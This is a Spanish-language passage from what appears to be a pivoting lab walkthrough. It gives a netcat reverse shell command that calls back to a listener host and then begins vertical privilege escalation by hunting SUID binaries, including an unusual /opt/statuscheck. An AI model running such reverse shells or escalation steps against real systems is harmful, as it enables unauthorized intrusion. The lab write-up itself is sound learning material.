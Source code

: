Ahora, para ganar una reverse shell, hay que introducir el comando nc -e /bin/sh 192.168.100.104 1234

![](/assets/images/labPivoting/17.png)

Ganamos acceso al servidor! ahora hay que hacer un [Tratamiento de la TTY](/Tratamiento-de-la-TTY/)

## Escalada de privilegios Vertical

Ahora para la escalada de privilegios, buscamos binarios SUID:

![](/assets/images/labPivoting/18.png)

Vemos uno raro, el /opt/statuscheck
Si lo ejecutamos:

![](/assets/images/labPivoting/19.png)
